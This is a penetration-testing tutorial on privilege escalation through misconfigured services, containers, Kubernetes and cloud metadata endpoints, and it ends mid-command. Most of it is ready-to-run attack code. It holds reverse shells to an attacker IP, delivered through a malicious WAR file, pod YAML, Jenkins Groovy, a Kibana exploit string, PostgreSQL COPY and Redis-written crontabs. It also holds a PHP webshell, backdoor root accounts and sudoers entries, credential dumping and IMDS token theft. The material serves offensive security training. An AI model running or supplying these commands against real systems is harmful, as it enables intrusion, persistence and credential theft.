


# Privilege Escalation via Misconfigurations

> **Difficulty:** Intermediate | **Category:** Penetration Testing  
> **OS Scope:** Linux, Windows, Cloud, Containers  
> **Prerequisites:** Initial shell access, basic Linux/Windows CLI familiarity

---

## 1. Introduction

Misconfiguration-based privilege escalation is consistently the **most common real-world PrivEsc vector** encountered during internal penetration tests and red team engagements. Unlike kernel exploits — which require precise version matching and often crash systems — misconfigurations are:

- **Stable** — exploiting them does not crash the machine.
- **Pervasive** — sysadmin convenience defaults are rarely hardened.
- **Chained** — each misconfiguration often unlocks the next.

### 1.1 The Convenience vs. Security Tradeoff

Administrators configure services for **speed of deployment**, not security:

| Sysadmin Shortcut | Security Consequence |
|---|---|
| "I'll change the default password later" | Default credentials persist forever |
| "I'll add auth to the dashboard after launch" | Unauthenticated management interfaces |
| "Everyone on this host can be trusted" | World-writable scripts run by cron as root |
| "Docker socket is needed for CI/CD" | Container escape to full host root |
| "Redis is only on localhost... usually" | Unauthenticated Redis exposed to internal net |
| "The metadata endpoint is internal-only" | SSRF pivots to cloud credential theft |

### 1.2 Misconfiguration Categories Overview



> **Note:** During an engagement, enumerate ALL categories simultaneously. Misconfigurations compound — a readable backup script may reveal a database password that connects to a MySQL instance running as root with UDF write access.

---

## 2. Default Credentials on Internal Services

Default credentials are the lowest-effort, highest-success-rate attack during internal network assessments. Services deployed via package managers, Docker Hub images, or cloud marketplaces almost universally ship with weak defaults.

### 2.1 Default Credentials Reference Table

| Service | Default Username | Default Password | Admin URL / Port |
|---|---|---|---|
| Apache Tomcat | `tomcat` | `tomcat` | `:8080/manager/html` |
| Apache Tomcat | `admin` | `admin` | `:8080/manager/html` |
| Jenkins | `admin` | `admin` | `:8080` |
| Jenkins (old) | `admin` | *(blank)* | `:8080` |
| Grafana | `admin` | `admin` | `:3000` |
| phpMyAdmin | `root` | *(blank)* | `:80/phpmyadmin` |
| MySQL | `root` | *(blank)* | `3306` |
| PostgreSQL | `postgres` | `postgres` | `5432` |
| MongoDB | *(none)* | *(none)* | `27017` (no auth) |
| Redis | *(none)* | *(none)* | `6379` (no auth) |
| Elasticsearch | `elastic` | `changeme` | `:9200` |
| Kibana | `elastic` | `changeme` | `:5601` |
| RabbitMQ | `guest` | `guest` | `:15672` |
| CouchDB | `admin` | `admin` | `:5984/_utils` |
| Hadoop NameNode | *(none)* | *(none)* | `:50070` (no auth) |
| Splunk | `admin` | `changeme` | `:8000` |
| Sonatype Nexus | `admin` | `admin123` | `:8081` |
| Consul | *(none)* | *(none)* | `:8500` (no auth) |
| Portainer | `admin` | `admin` | `:9000` |
| MinIO | `minioadmin` | `minioadmin` | `:9001` |
| Zabbix | `Admin` | `zabbix` | `:80/zabbix` |
| GLPI | `glpi` | `glpi` | `:80/glpi` |
| pfSense | `admin` | `pfsense` | `:443` |

### 2.2 Checking Apache Tomcat

```bash
# Manual check — look for HTTP 200 (success) vs 401 (wrong creds) vs 403 (IP blocked)
curl -u tomcat:tomcat http://target:8080/manager/html -I
curl -u admin:admin http://target:8080/manager/html -I
curl -u admin:s3cret http://target:8080/manager/html -I

# Deploy malicious WAR for RCE once manager is accessible
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f war -o shell.war
curl -u tomcat:tomcat http://target:8080/manager/text/deploy?path=/shell -T shell.war
curl http://target:8080/shell/
```

### 2.3 Jenkins Default Access

```bash
# Check if Jenkins requires auth at all
curl -s http://target:8080/api/json | python3 -m json.tool

# Try default admin credentials
curl -u admin:admin http://target:8080/whoAmI/api/json

# Jenkins stores user hashes in:
# /var/jenkins_home/users/<username>/config.xml
cat /var/jenkins_home/users/admin*/config.xml | grep passwordHash
```

### 2.4 Hydra Brute Force for Common Services

```bash
# HTTP Basic Auth (Tomcat manager)
hydra -l tomcat -P /usr/share/wordlists/rockyou.txt target http-get /manager/html

# Jenkins login form
hydra -l admin -P /usr/share/wordlists/rockyou.txt target http-form-post \
  '/j_spring_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password'

# MySQL
hydra -l root -P /usr/share/wordlists/rockyou.txt target mysql

# PostgreSQL
hydra -l postgres -P /usr/share/wordlists/rockyou.txt target postgres

# SSH (use sparingly — may trigger lockout)
hydra -l root -P /usr/share/wordlists/rockyou.txt target ssh -t 4
```

### 2.5 Metasploit Auxiliary Modules for Default Creds

```bash
# Tomcat default credentials scanner
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 10.10.10.0/24
set RPORT 8080
run

# MySQL login scanner
use auxiliary/scanner/mysql/mysql_login
set RHOSTS target
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
run

# PostgreSQL login scanner
use auxiliary/scanner/postgres/postgres_login
set RHOSTS target
run
```

---

## 3. Exposed Management Interfaces

### 3.1 Kubernetes Dashboard

The Kubernetes Dashboard, when deployed without proper RBAC or with skip-login enabled, grants full cluster control through a browser.

```bash
# Check if kubectl proxy is running or dashboard is exposed
kubectl proxy &
# Access:
# http://localhost:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/

# Check if dashboard service is exposed via NodePort or LoadBalancer
kubectl get svc -n kubernetes-dashboard
kubectl get svc -n kube-system | grep dashboard

# Check for unauthenticated access (HTTP 200 means no auth required)
curl -sk https://target:30000/#/login

# List cluster resources via API server if exposed
curl -sk https://target:6443/api/v1/namespaces --header "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"
```

**Escape to host via privileged pod from the Dashboard:**

1. Navigate to the Dashboard → **+** (Create) → Paste the YAML below:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: host-escape
  namespace: default
spec:
  hostPID: true
  hostNetwork: true
  hostIPC: true
  containers:
  - name: escape
    image: ubuntu:20.04
    command: ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.10.1/4444 0>&1"]
    securityContext:
      privileged: true
      allowPrivilegeEscalation: true
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
  restartPolicy: Never
```

```bash
# Listener on attacker machine
nc -lvnp 4444
# Inside the container shell:
chroot /host bash
id    # → root
```

### 3.2 Jenkins Groovy Script Console RCE

The Jenkins script console (`/script`) executes arbitrary Groovy code server-side with the OS privileges of the Jenkins process (often `jenkins` user, sometimes `root`).

```groovy
// Basic command execution — check current user
def cmd = "id".execute()
println cmd.text

// Read sensitive files
def file = new File("/etc/passwd")
println file.text

// Read Jenkins credentials (may contain SSH keys, API tokens, passwords)
import com.cloudbees.plugins.credentials.CredentialsProvider
import com.cloudbees.plugins.credentials.common.StandardUsernamePasswordCredentials
def creds = CredentialsProvider.lookupCredentials(StandardUsernamePasswordCredentials.class)
creds.each { println "${it.id}: ${it.username} / ${it.password}" }

// Reverse shell — replace IP and port
def proc = ["bash", "-c", "bash -i >& /dev/tcp/10.10.10.1/4444 0>&1"].execute()
proc.waitFor()

// Write SUID bash (if Jenkins runs as root)
["bash", "-c", "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"].execute().waitFor()
```

```bash
# Trigger from CLI (requires auth or if auth is disabled)
curl -u admin:admin http://target:8080/scriptText \
  --data-urlencode 'script=def cmd = "id".execute(); println cmd.text'
```

### 3.3 Jupyter Notebook — Unauthenticated Terminal

```bash
# Scan for exposed Jupyter notebooks
nmap -p 8888,8889 10.10.10.0/24 --open

# Check if token auth is disabled
curl -s http://target:8888/api/kernels | python3 -m json.tool

# If no auth — open terminal via API
curl -s -X POST http://target:8888/api/terminals

# Then WebSocket to terminal, or use the UI:
# http://target:8888/terminals/1

# Read files, execute commands
curl -s http://target:8888/api/contents/
curl -s http://target:8888/api/contents/../../etc/passwd
```

### 3.4 Elasticsearch Unauthenticated REST API

```bash
# Check cluster info (no auth in older versions / misconfigs)
curl -s http://target:9200/

# List all indices
curl -s http://target:9200/_cat/indices?v

# Dump all documents from an index
curl -s "http://target:9200/INDEX_NAME/_search?size=1000&pretty"

# Search for sensitive data across all indices
curl -s "http://target:9200/_search?q=password&pretty"
curl -s "http://target:9200/_search?q=secret&pretty"
curl -s "http://target:9200/_search?q=token&pretty"

# Get cluster nodes (reveals internal hostnames/IPs)
curl -s http://target:9200/_nodes?pretty | grep -E "name|host|ip"
```

### 3.5 Kibana Timelion RCE (CVE-2019-7609)

When Kibana runs as root (common in Docker deployments), the Timelion expression engine allows arbitrary command execution.

```bash
# Verify Kibana version (vulnerable: < 6.6.1)
curl -s http://target:5601/api/status | python3 -m json.tool | grep number

# Exploit via Timelion expression — triggers on canvas render
# Navigate to: http://target:5601/app/timelion
# Enter the following expression in the Timelion query box:
```

```
.es(index=test).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.10.1/4444 0>&1");process.exit()')
```

```bash
# Then switch to the Canvas app — the expression executes on render
# Listener on attacker:
nc -lvnp 4444
```

### 3.6 Prometheus — Secrets in Metric Endpoints

```bash
# Prometheus targets page exposes scraped URLs (may include creds)
curl -s http://target:9090/api/v1/targets | python3 -m json.tool | grep scrapeUrl

# Raw metrics may expose environment variables, config values
curl -s http://target:9090/metrics | grep -iE "password|secret|token|key|auth"

# Alertmanager config may contain webhook URLs with tokens
curl -s http://target:9093/api/v1/alerts
curl -s http://target:9093/api/v2/status | python3 -m json.tool
```

> **Warning:** Prometheus federation endpoints can expose metrics from internal services — always check `/federate` for aggregated data from downstream scrape targets.

---

## 4. Insecure File Permissions

### 4.1 Finding World-Writable Files and Directories

```bash
# World-writable files (excluding /proc and /sys noise)
find / -writable -type f 2>/dev/null | grep -v -E "^/(proc|sys|dev)"

# World-writable files owned by root (highest value targets)
find / -writable -type f -user root 2>/dev/null | grep -v -E "^/(proc|sys|dev)"

# World-writable directories
find / -writable -type d 2>/dev/null | grep -v -E "^/(proc|sys|dev|tmp|run)"

# Files with write permission for "others" (o+w)
find / -perm -o+w -type f 2>/dev/null | grep -v -E "^/(proc|sys)"

# Find all scripts (sh, py, pl, rb) that are world-writable
find / -writable -type f 2>/dev/null \
  \( -name "*.sh" -o -name "*.py" -o -name "*.pl" -o -name "*.rb" \) \
  | grep -v -E "^/(proc|sys|dev)"
```

### 4.2 Cron Scripts Owned by Root but Writable by Others

```bash
# List all crontabs
cat /etc/crontab
cat /etc/cron.d/*
ls -la /etc/cron.{daily,weekly,hourly,monthly}/

# Check who runs each script and if we can write to it
for script in $(grep -h -E "^[^#]" /etc/crontab /etc/cron.d/* 2>/dev/null | awk '{print $NF}'); do
  ls -la "$script" 2>/dev/null
done

# If a root cron runs /opt/backup/backup.sh and it's world-writable:
echo 'chmod +s /bin/bash' >> /opt/backup/backup.sh
# Wait for cron execution, then:
/bin/bash -p
id  # → root
```

### 4.3 Configuration Files Containing Credentials

```bash
# Web application config files
find / -name "*.conf" -o -name "*.config" -o -name "*.cfg" -o -name "*.ini" \
  2>/dev/null | xargs grep -l -i "password\|passwd\|secret\|dbpass\|db_pass" 2>/dev/null

# PHP config files with DB credentials
find /var/www -name "*.php" 2>/dev/null | xargs grep -l -i "db_pass\|mysql_pass\|DB_PASSWORD" 2>/dev/null

# .env files (Laravel, Django, Node.js)
find / -name ".env" 2>/dev/null | xargs cat 2>/dev/null | grep -iE "password|secret|key|token"

# Spring Boot application properties
find / -name "application.properties" -o -name "application.yml" 2>/dev/null \
  | xargs grep -i "password\|secret" 2>/dev/null

# Ansible vault files / plaintext vars
find / -name "*.yml" -path "*/vars/*" 2>/dev/null \
  | xargs grep -i "password\|secret\|ansible_ssh_pass" 2>/dev/null
```

### 4.4 Capabilities Set on Binaries

```bash
# List all capabilities set on files
getcap -r / 2>/dev/null

# Dangerous capabilities to exploit:
# cap_setuid+ep  → can call setuid(0)
# cap_dac_read_search+ep → reads any file regardless of permissions
# cap_net_raw+ep → raw socket access (sniff traffic)
# cap_sys_admin+ep → near-root

# Exploit python3 with cap_setuid:
# /usr/bin/python3 = cap_setuid+ep
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"

# Exploit vim with cap_dac_read_search:
vim /etc/shadow
```

---

## 5. World-Readable SSH Keys

### 5.1 Locating Private Keys

```bash
# Hunt for private key files by name
find / -name "id_rsa" -o -name "id_ecdsa" -o -name "id_ed25519" -o -name "id_dsa" 2>/dev/null

# Hunt by PEM headers (broader catch)
find / -name "*.pem" -o -name "*.key" -o -name "*.ppk" 2>/dev/null

# Check for keys in non-standard locations
find /home /root /var /opt /srv /etc -name "*.pem" -o -name "id_*" 2>/dev/null

# Check all .ssh directories across users
find / -maxdepth 5 -name ".ssh" -type d 2>/dev/null | while read d; do ls -la "$d/"; done

# Look for inline private keys in files (BEGIN PRIVATE KEY / BEGIN RSA PRIVATE KEY)
grep -r "BEGIN.*PRIVATE KEY" / --include="*.txt" --include="*.md" \
  --include="*.log" --include="*.conf" 2>/dev/null | head -20
```

### 5.2 Verifying Key Permissions and Using Found Keys

```bash
# Check current user's SSH key permissions (should be 600, 700)
ls -la ~/.ssh/

# If a found key has bad permissions, fix locally before using
cp /tmp/found_id_rsa ~/.ssh/target_key
chmod 600 ~/.ssh/target_key

# Identify what the key connects to — check authorized_keys and known_hosts
cat /root/.ssh/authorized_keys 2>/dev/null
cat /home/*/.ssh/authorized_keys 2>/dev/null
cat /root/.ssh/known_hosts 2>/dev/null

# Use the key to SSH
ssh -i /path/to/id_rsa user@target
ssh -i /path/to/id_rsa root@target

# Test key against all users found in /etc/passwd (avoid system users)
for user in $(cat /etc/passwd | awk -F: '$3 >= 1000 {print $1}'); do
  ssh -i /found/id_rsa -o StrictHostKeyChecking=no -o BatchMode=yes \
    "$user@target" id 2>/dev/null && echo "✓ $user"
done
```

### 5.3 Bash History Mining

```bash
# Check bash/zsh/fish history for all users
cat ~/.bash_history 2>/dev/null
cat ~/.zsh_history 2>/dev/null
cat /root/.bash_history 2>/dev/null

# SSH-related history entries
cat ~/.bash_history | grep -iE "ssh|scp|sftp|rsync"

# Passwords typed directly on CLI (bad practice but common)
cat ~/.bash_history | grep -iE "password|passwd|pass|--password|-p "

# MySQL CLI with inline password
cat ~/.bash_history | grep "mysql -u"

# Check all home directories if accessible
find /home /root -name ".bash_history" -readable 2>/dev/null | xargs cat 2>/dev/null \
  | grep -iE "ssh|password|sudo|su -"
```

### 5.4 SSH Config File Reconnaissance

```bash
# SSH client config may specify users, hosts, and key files
cat ~/.ssh/config
cat /root/.ssh/config 2>/dev/null
find / -name "ssh_config" -not -path "*/sshd_config" 2>/dev/null | xargs cat

# Example of a valuable ssh config entry:
# Host prod-db
#   HostName 192.168.1.50
#   User root
#   IdentityFile ~/.ssh/prod_rsa
#   StrictHostKeyChecking no
```

---

## 6. Database Running as Root with UDF (User Defined Functions)

When a database service runs as the OS `root` user, functions that write files or execute shell commands operate with root privileges.

### 6.1 MySQL UDF Shell Escalation

```bash
# Verify MySQL is running as root
ps aux | grep mysql

# Connect and check DB user
mysql -u root -p
```

```sql
-- Check MySQL runtime user (OS-level)
SELECT user();
SELECT @@hostname;
SELECT @@datadir;
SELECT @@plugin_dir;

-- Check if file read/write is available
SHOW VARIABLES LIKE 'secure_file_priv';
-- Empty value = no restriction (we can read/write anywhere)

-- Check if we can read files
SELECT LOAD_FILE('/etc/passwd');

-- Write UDF shared library to plugin directory
-- (udf.so must already be base64-decoded and ready on the system or transferred via hex)
SELECT UNHEX('7f454c46...') INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

-- Alternatively with raptor_udf2.so (common PoC)
SELECT LOAD_FILE('/tmp/raptor_udf2.so') INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';

-- Create the UDF function
CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';

-- Execute OS commands as root
SELECT do_system('id > /tmp/out; chown www-data /tmp/out');
SELECT do_system('chmod u+s /bin/bash');
SELECT do_system('cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash');
SELECT do_system('echo "root2::0:0:root:/root:/bin/bash" >> /etc/passwd');
```

```bash
# After setting SUID bit on bash
/bin/bash -p
id  # → euid=0(root)
```

### 6.2 PostgreSQL COPY TO/FROM PROGRAM

```sql
-- Verify PostgreSQL superuser
SELECT current_user;
SELECT pg_catalog.current_setting('is_superuser');

-- Read OS files
CREATE TABLE file_read (content text);
COPY file_read FROM '/etc/passwd';
SELECT * FROM file_read;

-- Execute commands via COPY FROM PROGRAM (PostgreSQL 9.3+)
CREATE TABLE cmd_output (output text);
COPY cmd_output FROM PROGRAM 'id';
SELECT * FROM cmd_output;

-- Reverse shell
COPY (SELECT '') TO PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.10.1/4444 0>&1"';

-- Write SSH key to root's authorized_keys
COPY (SELECT 'ssh-rsa AAAAB3NzaC1yc2E... attacker@kali') 
  TO '/root/.ssh/authorized_keys';

-- Write a cron job
COPY (SELECT '* * * * * root bash -i >& /dev/tcp/10.10.10.1/4444 0>&1')
  TO '/etc/cron.d/pg_shell';
```

### 6.3 SQLite .load Extension Execution

```bash
# If you have a SQLite shell (e.g., via a web app or local access)
sqlite3 /path/to/database.db

# Load a shared library (extension) for code execution
# First, compile a malicious extension:
cat > /tmp/ext.c << 'EOF'
#include <sqlite3ext.h>
SQLITE_EXTENSION_INIT1
static void rce(sqlite3_context *ctx, int argc, sqlite3_value **argv) {
    system((const char *)sqlite3_value_text(argv[0]));
}
int sqlite3_ext_init(sqlite3 *db, char **err, const sqlite3_api_routines *api) {
    SQLITE_EXTENSION_INIT2(api);
    sqlite3_create_function(db, "rce", 1, SQLITE_UTF8, 0, rce, 0, 0);
    return SQLITE_OK;
}
EOF
gcc -shared -fPIC -nostartfiles -o /tmp/ext.so /tmp/ext.c

# Load and use:
sqlite3 /path/to/db ".load /tmp/ext" "SELECT rce('id');"
```

---

## 7. Redis Unauthenticated Access

Redis, by default, binds to `0.0.0.0` with no authentication. When the Redis process runs as root (common in misconfigured Docker containers), this translates to full root code execution.

### 7.1 Initial Verification

```bash
# Test connectivity
redis-cli -h target ping
# Response: PONG → unauthenticated access confirmed

# Get server info (reveals OS, Redis version, connected clients)
redis-cli -h target info server

# List all keys
redis-cli -h target keys '*'

# Check CONFIG commands are available (needed for file write)
redis-cli -h target config get dir
redis-cli -h target config get dbfilename
```

### 7.2 Crontab Injection via Redis

```bash
# Step 1: Flush existing data (⚠ destructive in production)
redis-cli -h target flushall

# Step 2: Set a key with cron job payload (newlines required)
redis-cli -h target set crackit $'\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/10.10.10.1/4444 0>&1\n\n'

# Step 3: Point Redis to write its dump into the crontab directory
redis-cli -h target config set dir /var/spool/cron/crontabs/
# Or on RHEL/CentOS:
redis-cli -h target config set dir /var/spool/cron/

# Step 4: Set the dump file name to 'root' (the root crontab file)
redis-cli -h target config set dbfilename root

# Step 5: Force a save (writes the DB file = our crontab)
redis-cli -h target save

# Step 6: Listen for incoming reverse shell
nc -lvnp 4444
```

### 7.3 SSH Authorized Keys Injection via Redis

```bash
# Step 1: Generate a key pair (or use existing)
ssh-keygen -t rsa -f /tmp/redis_rsa -N ""

# Step 2: Wrap public key with padding newlines
(echo -e "\n\n"; cat /tmp/redis_rsa.pub; echo -e "\n\n") > /tmp/redis_key.txt

# Step 3: Import key content into Redis
cat /tmp/redis_key.txt | redis-cli -h target -x set sshhack

# Step 4: Set Redis data directory to root's .ssh
redis-cli -h target config set dir /root/.ssh/

# Step 5: Save as authorized_keys
redis-cli -h target config set dbfilename authorized_keys
redis-cli -h target save

# Step 6: SSH in as root
ssh -i /tmp/redis_rsa root@target
```

> **Note:** The `SAVE` command writes a binary RDB file. The extra newlines around the SSH key prevent the binary headers from breaking the authorized_keys format — SSH's parser is forgiving of garbage lines as long as the key line is valid.

### 7.4 Redis Webshell Write (if Web Root is Known)

```bash
# Write a PHP webshell to the web root
redis-cli -h target set shell "<?php system(\$_GET['cmd']); ?>"
redis-cli -h target config set dir /var/www/html/
redis-cli -h target config set dbfilename shell.php
redis-cli -h target save

# Trigger the webshell
curl "http://target/shell.php?cmd=id"
curl "http://target/shell.php?cmd=bash+-i+>%26+/dev/tcp/10.10.10.1/4444+0>%261"
```

---

## 8. Docker Socket Exposure

The Docker socket (`/var/run/docker.sock`) is the Unix socket the Docker daemon listens on. **Any process with write access to this socket has full root-equivalent control over the host.**

### 8.1 Detection

```bash
# Check if socket exists and is writable
ls -la /var/run/docker.sock

# Check current user's group membership
id
groups

# If in docker group or socket is world-writable → exploit
getent group docker
```

### 8.2 Container Escape via Volume Mount

```bash
# Mount the entire host filesystem into a new container and chroot
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# With specific image already on host (avoid pulling)
docker images
docker run -v /:/host --rm -it ubuntu:latest chroot /host bash

# Verify you have root on the host:
id
cat /etc/shadow
cat /root/.ssh/id_rsa
hostname
```

### 8.3 Privilege Escalation Actions Inside Escaped Shell

```bash
# Add current user to sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers

# Create a new root user
echo "hacker:$(openssl passwd -1 hacker123):0:0:root:/root:/bin/bash" >> /etc/passwd

# Set SUID bit on bash for persistent access
chmod +s /bin/bash
# Later (outside container):
bash -p && id  # → root

# Plant SSH key for root
mkdir -p /root/.ssh && chmod 700 /root/.ssh
echo "ssh-rsa AAAA...attacker_key..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### 8.4 Docker Socket Exploitation via REST API (No Docker CLI)

```bash
# List running containers
curl --unix-socket /var/run/docker.sock http://localhost/containers/json | python3 -m json.tool

# List available images
curl --unix-socket /var/run/docker.sock http://localhost/images/json | python3 -m json.tool

# Create a privileged container with host filesystem mounted
curl --unix-socket /var/run/docker.sock -X POST \
  -H "Content-Type: application/json" \
  "http://localhost/containers/create" \
  -d '{
    "Image": "ubuntu:latest",
    "Cmd": ["/bin/bash", "-c", "chroot /host bash -i >& /dev/tcp/10.10.10.1/4444 0>&1"],
    "Binds": ["/:/host"],
    "Privileged": true
  }'

# Start the container (replace CONTAINER_ID with returned ID)
curl --unix-socket /var/run/docker.sock -X POST \
  "http://localhost/containers/CONTAINER_ID/start"
```

> **Warning:** Docker socket access is functionally equivalent to root on the host. Any container orchestration service (CI/CD runners, Portainer agents, monitoring tools) with socket access is a complete host compromise vector.

---

## 9. Kubernetes RBAC Misconfigurations

### 9.1 Enumerating Permissions

```bash
# Check what the current service account can do
kubectl auth can-i --list
kubectl auth can-i --list --namespace kube-system

# Check specific permissions
kubectl auth can-i create pods
kubectl auth can-i exec pods
kubectl auth can-i get secrets
kubectl auth can-i list secrets -n kube-system

# Enumerate all ClusterRoleBindings (requires get/list on clusterrolebindings)
kubectl get clusterrolebindings -o wide
kubectl get rolebindings --all-namespaces -o wide

# Describe the service account's role
kubectl describe clusterrole $(kubectl get clusterrolebindings -o json | \
  python3 -c "import sys,json; [print(b['roleRef']['name']) for b in json.load(sys.stdin)['items']]")
```

### 9.2 Dangerous RBAC Permissions

| Permission | Why Dangerous | Exploitation |
|---|---|---|
| `create pods` | Spawn privileged containers | Mount host FS, escape to host |
| `exec pods` | RCE in existing privileged pods | Get shell in privileged container |
| `get/list secrets` | Read all K8s secrets | Extract DB passwords, API keys, TLS certs |
| `patch deployments` | Inject malicious init container | Backdoor running workloads |
| `create/patch rolebindings` | Grant self cluster-admin | Full cluster takeover |
| `impersonate` | Impersonate admin users | Bypass all authorization |
| `create serviceaccounts` + `create rolebindings` | Self-escalate | Indirect cluster-admin |

### 9.3 Escape via Privileged Pod

```yaml
# escape-pod.yaml — deploy to escape to the underlying node
apiVersion: v1
kind: Pod
metadata:
  name: node-escape
  namespace: default
spec:
  hostPID: true
  hostNetwork: true
  hostIPC: true
  nodeSelector:
    kubernetes.io/hostname: target-node  # optional: target specific node
  containers:
  - name: escape
    image: ubuntu:20.04
    command: ["sleep", "infinity"]
    securityContext:
      privileged: true
      allowPrivilegeEscalation: true
      runAsUser: 0
    volumeMounts:
    - name: host-root
      mountPath: /host
    - name: host-proc
      mountPath: /host-proc
  volumes:
  - name: host-root
    hostPath:
      path: /
  - name: host-proc
    hostPath:
      path: /proc
  restartPolicy: Never
```

```bash
# Deploy the pod
kubectl apply -f escape-pod.yaml

# Wait for it to be Running
kubectl get pod node-escape -w

# Exec into pod and chroot to host
kubectl exec -it node-escape -- chroot /host bash

# Verify root on the node
id
hostname
cat /etc/shadow
```

### 9.4 Service Account Token Abuse

```bash
# Read the service account token from within a pod
cat /var/run/secrets/kubernetes.io/serviceaccount/token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

# Use token to query API server directly
APISERVER=https://kubernetes.default.svc

curl -s --cacert $CACERT \
  --header "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/namespaces/$NAMESPACE/secrets" | python3 -m json.tool

# List pods in all namespaces
curl -s --cacert $CACERT \
  --header "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/pods" | python3 -m json.tool | grep '"name"'

# Decode a base64-encoded secret
kubectl get secret my-secret -o jsonpath='{.data.password}' | base64 -d
```

---

## 10. Cloud IMDS (Instance Metadata Service) Exploitation

The **Instance Metadata Service** (IMDS) is a local HTTP endpoint (`169.254.169.254`) available to every cloud VM. It provides the instance with credentials for its attached IAM role — **unauthenticated by default on AWS IMDSv1**.

### 10.1 AWS IMDSv1 — Credential Theft

```bash
# Confirm we're on an AWS instance
curl -s --max-time 3 http://169.254.169.254/latest/meta-data/ && echo "AWS IMDSv1 accessible"

# Enumerate metadata
curl -s http://169.254.169.254/latest/meta-data/
curl -s http://169.254.169.254/latest/meta-data/hostname
curl -s http://169.254.169.254/latest/meta-data/local-ipv4
curl -s http://169.254.169.254/latest/meta-data/public-keys/

# Get the attached IAM role name
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Get temporary credentials for the role (replace ROLE_NAME)
ROLE=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s "http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE"
# Returns: AccessKeyId, SecretAccessKey, Token, Expiration
```

```bash
# Configure AWS CLI with stolen credentials
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."

# Enumerate identity and permissions
aws sts get-caller-identity
aws iam list-attached-role-policies --role-name $ROLE
aws iam get-policy-version --policy-arn ARN --version-id v1

# Look for high-value actions
aws iam simulate-principal-policy \
  --policy-source-arn $(aws sts get-caller-identity --query Arn --output text) \
  --action-names "iam:CreateUser" "iam:AttachUserPolicy" "ec2:DescribeInstances" "s3:ListAllMyBuckets"

# Enumerate S3 buckets
aws s3 ls
aws s3 ls s3://bucket-name --recursive

# Enumerate EC2 instances in the VPC
aws ec2 describe-instances --query 'Reservations[*].Instances[*].[InstanceId,PrivateIpAddress,Tags]'
```

### 10.2 GCP Instance Metadata

```bash
# Required header: Metadata-Flavor: Google
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/

# Get service account access token
curl -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token"

# Get service account email
curl -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/email"

# List service account scopes
curl -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/scopes"

# Project info
curl -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/project/project-id"
curl -H "Metadata-Flavor: Google" \
  "http://169.254.169.254/computeMetadata/v1/project/numeric-project-id"

# Use the token with GCP APIs
TOKEN=$(curl -s -H "Metadata-Flavor: Google" \
